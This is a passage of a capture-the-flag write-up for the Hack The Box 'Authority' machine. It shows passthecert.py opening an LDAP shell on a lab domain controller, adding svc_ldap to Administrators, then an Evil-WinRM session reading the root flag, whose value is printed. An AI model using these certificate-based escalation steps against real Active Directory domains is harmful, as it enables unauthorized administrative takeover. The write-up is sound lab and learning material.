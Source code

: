 # PE - Using passthecert.py to make svc_ldap administrator
It was possible to use `passthecert.py` with the files generated in the previous step to authenticate and get an LDAP shell. Once the shell was granted it was then possible to add the svc_ldap user to the Administrators group.

```
┌─[✗]─[parrot@parrotos]─[~/htb/authority]
└──╼ $python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.102.151
Impacket v0.10.1.dev1+20230712.145931.275f4b97 - Copyright 2022 Fortra

Type help for list of commands

# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK

# 
```

# Logging in as svc_ldap (with new permissions)
It was necessary to reauthenticate as the svc_ldap user to make sure the new permissions are applied to the session. After doing so the user was now an administrator and could read the root flag.  

```
*Evil-WinRM* PS C:\users\administrator\desktop>        ls


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/15/2023   8:41 PM             34 root.txt


*Evil-WinRM* PS C:\users\administrator\desktop> type root.txt
5ad73fe16027d8a10c8e88ed90759725
```
